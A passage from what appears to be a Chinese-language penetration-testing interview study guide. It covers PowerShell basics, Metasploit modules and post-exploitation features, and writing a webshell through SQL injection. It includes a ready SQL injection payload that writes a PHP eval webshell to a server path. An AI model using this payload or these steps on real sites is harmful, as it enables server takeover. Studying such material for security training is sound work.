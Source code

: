 使用

* 常见的操作 pwd ls cd mkdir rm
* get-process获取所有进程信息
* get-date获取当前时间信息
* get-host获取当前主机信息
* 然后就是使用PowersSploit(基于Powershell的后渗透框架软件，包括了很多Power shell攻击脚本，主要用于渗透中的信息收集，权限提升，权限维持)的时候在Powshell上使用过一些下载和运行攻击脚本的命令。

## 11.MSF是什么？知道怎么使用吗？

简介：

* Metasploit Framework(MSF)是一款开源安全漏洞检测工具，附带数千个已知的软件漏洞，并保持持续更新。Metasploit可以用来信息收集、漏洞探测、漏洞利用等渗透测试的全流程。

模块：

* Auxiliary（辅助模块）
* 为渗透测试信息搜集提供了大量的辅助模块支持
* Exploits（攻击模块）
* 利用发现的安全漏洞或配置弱点对远程目标系统 进行攻击，从而获得对远程目标系统访问权的代码组件。
* Payload（攻击载荷模块）
* 攻击成功后促使靶机运行的一段植入代码
* Post （后渗透攻击模块）
* 收集更多信息或进一步访问被利用的目标系统
* Encoders（编码模块）
* 将攻击载荷进行编码，来绕过防护软件拦截

使用：

* 首先利用Auxiliary辅助探测模块扫描，嗅探，指纹识别相关漏洞，然后确认漏洞存在使用Exploit漏洞利用模块对漏洞进行利用，包括设置payload攻击载荷，设置本机监听等等。漏洞利用成功目标主机就会通过设置的端口主动连接，产生会话。进而可以进行后渗透。

功能：

* 木马免杀，抓取用户密码，关闭杀毒软件，屏幕截图，新建账号，远程登录，迁移进程，提权操作，网络嗅探，端口转发 ，内网代理，内网扫描，生成后门，清除日志等等。

## 12.SQL注入怎么写入webshell？

条件：

* 知道web绝对路径
* 有文件写入权限(一般情况只有ROOT用户有)
* 数据库开启了secure_file_priv设置

然后就能用select into outfile写入webshell

**常见手法：**

联合注入写入

?id=1' union select 1,"`<?php @eval($_POST['shell']);?>`",3 into outfile 'C:\\phpstudy\\WWW\\sqli\\shell.php'#

dumpfile函数写入
